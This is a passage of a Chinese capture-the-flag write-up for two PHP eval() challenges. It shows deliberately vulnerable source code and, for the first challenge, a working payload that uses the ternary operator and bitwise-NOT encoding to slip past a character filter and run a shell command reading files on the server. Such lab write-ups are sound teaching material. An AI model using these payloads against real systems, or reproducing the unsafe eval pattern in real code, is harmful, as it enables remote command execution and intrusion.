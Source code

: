 ## web145(巧用三目运算符，144plus)

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

加减乘除都被过滤了，可以利用三目运算符

```
eval("return 1?phpinfo():1;");
```

payload：

```
v1=1&v3=?(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%D5):&v2=1
```

## web146(利用位运算符，145plus)

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
} 
```
